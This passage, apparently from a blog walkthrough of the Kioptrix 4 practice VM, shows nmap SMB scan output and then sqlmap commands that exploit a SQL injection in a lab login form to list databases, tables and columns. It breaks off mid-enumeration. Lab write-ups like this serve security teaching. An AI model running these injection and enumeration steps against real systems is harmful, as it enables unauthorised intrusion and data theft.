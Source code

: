 ```bash

Host script results:
|_clock-skew: mean: 2h00m00s, deviation: 2h49m42s, median: 0s
|_nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name:
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2020-05-01T12:56:33-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE
HOP RTT     ADDRESS
1   0.64 ms 192.168.56.110

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.32 seconds
```

I couldn't find any relevant exploits for both the OpenSSH and the Apache version, so I went straight to the website hosted on port 80. I was greeted with a login form, so my first instinct was to check for SQL injection vulnerability. I entered `admin` as the username and a single apostrophe as the password. This gave me an SQL error indicating vulnerability to SQL injection. I then fired up both `sqlmap` and BurpSuite - the latter to figure out exactly as what data my previous credential combination would be processed. This way I could give `sqlmap` the information it needs in order so it can do further research:

![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix13_burp.png)

Now that I knew exactly what data I had to pass along to `sqlmap` (using the `--data=` option), I could start enumerating. Due to how `sqlmap` works I left out a lot of output for the sake of readability, so the most important parts are below:

```bash
kali@kali:~$ sqlmap http://192.168.56.110/checklogin.php --data="myusername=admin&mypassword=%27&Submit=Login" --dbs
available databases [3]:
[*] information_schema
[*] members
[*] mysql

kali@kali:~$ sqlmap http://192.168.56.110/checklogin.php --data="myusername=admin&mypassword=%27&Submit=Login" -D members --tables
Database: members
[1 table]
+---------+
| members |
+---------+

kali@kali:~$ sqlmap http://192.168.56.110/checklogin.php --data="myusername=admin&mypassword=%27&Submit=Login" -D members -T members --columns
Database: members
Table: members
[3 columns]
+----------+-------------+
| Column   | Type        |
```
